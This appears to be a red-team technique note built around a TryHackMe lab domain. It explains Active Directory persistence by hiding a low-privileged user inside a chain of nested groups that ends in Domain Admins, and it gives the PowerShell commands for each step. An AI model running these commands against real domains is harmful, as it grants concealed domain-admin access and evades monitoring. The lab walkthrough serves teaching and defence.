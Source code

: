 
==**This technique is incredibly invasive and hard to remove. Even if you have signoff on your red team exercise to perform these techniques, you must take the utmost caution when performing these techniques. In real-world scenarios, the exploitation of most of these techniques would result in a full domain rebuild.**==

## General

In Active Directory (AD), nested groups refer to the practice of placing one group inside another group, also known as a "parent-child" relationship. This allows for more efficient management of user access to resources and easier delegation of administrative tasks.

Nested groups can be used to hide oneself in domain admin groups by creating a new group, adding oneself to that group, and then adding that group to the domain admin group. By doing this, an attacker can gain access to resources that are restricted to domain admin without being directly a member of the domain admin group, and therefore can evade detection.

For example, an attacker can create a new group called "Delegated Admins" and add their own user account to it. Then the attacker can add the "Delegated Admins" group as a member of the "Domain Admins" group. Now the attacker's user account has the same privileges as a member of the "Domain Admins" group, but it's not directly a member of it, and it's harder to detect.

## Nested Groups
In many organizations, there are a large number of groups that are members of other groups, known as recursive groups or group nesting. This is used to create a more organized structure in Active Directory (AD). However, this structure also reduces visibility into effective access, making it difficult to understand who has access to what. Additionally, it can make it harder to monitor for changes to privileged groups, as changes to subgroups may not trigger alerts. As an attacker, this can be leveraged to maintain persistence by targeting subgroups that are not being monitored, rather than privileged groups that would raise alerts.


## Commands

Nesting Our Persistence 

- Change all the groupe name as desired (Net group, GROUP_NAME,...)

Let's simulate this type of persistence. In order to simulate the persistence, we will create some of our own groups. Let's start by creating a new base group that we will hide in the People->IT Organisational Unit (OU)
```
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "GROUPE_NAME Net Group 1" -SamAccountName "GROUPE_NAME_nestgroup1" -DisplayName "GROUPE_NAME Nest Group 1" -GroupScope Global -GroupCategory Security
```

Let's now create another group in the People->Sales OU and add our previous group as a member:
```
PS C:\Users\Administrator.ZA>New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "GROUPE_NAME Net Group 2" -SamAccountName "GROUPE_NAME_nestgroup2" -DisplayName "GROUPE_NAME Nest Group 2" -GroupScope Global -GroupCategory Security 

PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "GROUPE_NAME_nestgroup2" -Members "GROUPE_NAME_nestgroup1"
```

We can do this a couple more times, every time adding the previous group as a member
```
PS C:\Users\Administrator.ZA> New-ADGroup -Path "OU=CONSULTING,OU=PEOPLE,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "GROUPE_NAME Net Group 3" -SamAccountName "GROUPE_NAME_nestgroup3" -DisplayName "GROUPE_NAME Nest Group 3" -GroupScope Global -GroupCategory Security 

PS C:\Users\Administrator.ZA> Add-ADGroupMember -Identity "GROUPE_NAME_nestgroup3" -Members "GROUPE_NAME_nestgroup2"
```

With the last group, let's now add that group to the Domain Admins group
```
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "Domain Admins" -Members "GROUPE_NAME_nestgroup5"
```

Add our low-privileged AD user to the first group we created
```
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "GROUPE_NAME_nestgroup1" -Members "<low privileged username>"
```

Low-privileged user should now have privileged access to DC
```
dir \\thmdc.za.tryhackme.loc\c$\
```